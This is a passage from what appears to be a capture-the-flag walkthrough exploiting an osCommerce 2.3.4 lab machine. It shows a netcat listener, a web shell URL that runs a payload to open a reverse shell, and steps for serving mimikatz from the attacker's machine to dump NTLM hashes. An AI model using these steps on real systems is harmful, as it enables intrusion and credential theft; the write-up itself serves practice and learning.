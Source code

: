 now we can set up our listener using netcat and execute it.

```
nc -lnvp 4455
```

```
execute using the following command: http://10.10.113.71:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=shell-x86.exe
```

and now we have a shell.

![image](/posts/res/BP16.png) 

now we are asked to get the NTLM Hash of the user. to do this we must transfer mimikatz binary from our local machine unto the server.

in our kali machine we have mimikatz x86 binary available in the following file path 

```
/usr/share/windows-resources/mimikatz/Win32
```

all we need to do is copy the binary file over to our current working directory and then start a simple web server using python.

![image](/posts/res/BP17.png) 

now we start our python web server on our local machine using the following command:
```
python3 -m http.server 8081
```

on our target shell we can run the following command in the Temp directory to download the mimikatz binary from our local machine
